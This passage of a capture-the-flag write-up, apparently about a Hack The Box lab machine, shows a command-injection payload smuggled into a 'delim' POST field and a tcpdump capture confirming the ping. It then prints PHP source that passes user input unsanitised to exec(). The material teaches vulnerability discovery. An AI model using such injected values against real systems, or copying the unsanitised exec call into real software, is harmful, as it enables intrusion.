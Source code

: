 

    delim=comma;ping -c 1 10.10.14.6 #



I'll open `tcpdump` and then send this with Burp, and ICMP comes back:



    oxdf@parrot$ sudo tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    17:02:14.962560 IP 10.10.11.104 > 10.10.14.6: ICMP echo request, id 2377, seq 1, length 64
    17:02:14.962593 IP 10.10.14.6 > 10.10.11.104: ICMP echo reply, id 2377, seq 1, length 64



That's command injection.

#### With Source

With the source code, I'll start with a `grep` that will identify many
of the [dangerous PHP
functions](https://gist.github.com/mccabe615/b0907514d34b2de088c4996933ea1720):



    oxdf@parrot$ grep -R -e system -e exec -e passthru -e '`' -e popen -e proc_open *
    download.php:        flush(); // Flush system headers
    logs.php:$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
    logs.php:    flush(); // Flush system headers



The first and last ones are comments, but the middle on in `logs.php` is
interesting. That file:



    <?php
    session_start();
    if (!isset($_SESSION['user'])) {
        header('Location: login.php');
        exit;
    }
    ?>

    <?php
    if (!$_SERVER['REQUEST_METHOD'] == 'POST') {
        header('Location: login.php');
        exit;
    }

    /////////////////////////////////////////////////////////////////////////////////////
    //I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
    /////////////////////////////////////////////////////////////////////////////////////

    $output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
    echo $output;

    $filepath = "/var/www/out.log";
    $filename = "out.log";
